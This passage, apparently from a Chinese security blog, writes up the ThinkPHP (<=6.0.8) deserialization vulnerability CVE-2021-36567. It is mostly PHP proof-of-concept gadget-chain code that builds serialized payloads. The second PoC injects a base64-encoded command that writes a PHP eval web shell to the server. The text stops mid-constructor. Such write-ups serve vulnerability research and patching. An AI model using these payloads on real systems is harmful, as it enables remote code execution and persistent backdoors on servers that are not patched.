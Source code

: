 ```bash
            $this->expire = "永遠的神y4";
            $this->adapter = new \League\Flysystem\Adapter\Local();
            $this->file = "y4tacker.php";
        }

    }
}

namespace League\Flysystem\Adapter{
    class Local extends AbstractAdapter{

    }
    abstract class AbstractAdapter{
        protected $pathPrefix;
        public function __construct(){
            $this->pathPrefix = "./";
        }
    }
}

namespace {

    use League\Flysystem\Cached\Storage\Adapter;
    $a = new Adapter();
    echo urlencode((serialize($a)));
}
```

区别就是初始化的时候赋值的 complete 变量，因为$contents = $this->getForStorage();我们跟进 getForStorage() 方法就可以发现 return json\_encode(\[$cleaned, $this->complete, $this->expire\]);我们自然可以只赋值 complete 变量

## CVE-2021-36567

### 描述

ThinkPHP v6.0.8 已通过组件 League\\Flysystem\\Cached\\Storage\\AbstractCache 包含反序列化漏洞。

### 范围

thinkphp<=6.0.8,Linux 系统，因为核心是把 system(json 加密的数据),类似： 
\[\["`whoami`"\],\[\]\]  
这样的结果返回，Windows 肯定不会执行成功，Linux 可以返回，虽然没有回显但是命令执行函数已经执行了。所以我们可以写木马文件  
\[\[jmx\],\[\]\]: command not found

### Poc

```bash
<?php
namespace League\Flysystem\Cached\Storage{
    abstract class AbstractCache
    {
        protected $autosave = false;
        protected $complete = [];
        protected $cache = ['`echo PD9waHAgZXZhbCgkX1BPU1RbMV0pOz8+|base64 -d > 2.php`'];
    }
}

namespace think\filesystem{
    use League\Flysystem\Cached\Storage\AbstractCache;
    class CacheStore extends AbstractCache
    {
        protected $store;
        protected $key;
        public function __construct($store,$key,$expire)
```